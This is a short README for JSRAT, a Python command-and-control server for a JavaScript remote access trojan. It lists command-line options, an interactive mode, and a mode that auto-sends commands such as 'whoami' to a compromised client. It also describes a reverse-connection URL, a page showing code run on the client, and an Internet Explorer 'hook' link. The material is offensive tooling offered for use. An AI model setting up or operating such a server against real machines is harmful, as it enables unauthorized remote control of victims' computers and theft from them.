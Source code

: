 # JSRAT

# How to Use Python_JSRAT:
JSRat Server
Usage: MyJSRat.py [options]

Options:

  --version             show program's version number and exit
  
  -h, --help            show this help message and exit
  
  -i IP, --ip=IP        IP to Bind Server to (i.e. 192.168.0.69)
  
  -p PORT, --port=PORT  Port to Run Server on
  
  -u URL, --url=URL     URL to Initiate Client Connection (default: /connect)
  
  -f, --find-ip         Display Current Internal and External IP Addresses
  
  -c CMD, --command=CMD
  
                        auto Send command to client (No interaction)
                        
  -v                    Enable Verbose Output
  
Two Modes:

  1-Interactive mode
  
   python MyJSRat.py -i 192.168.1.101 -p 8080
  
  2-Command mode
  
  python MyJSRat.py -i 192.168.1.101 -p 8080 -c "whoami"

Url explain:

http://192.168.1.101:8080/connect  default reverse url

http://192.168.1.101:8080/wtf To see the code ran on the client

http://192.168.1.101:8080/hook IE hook link
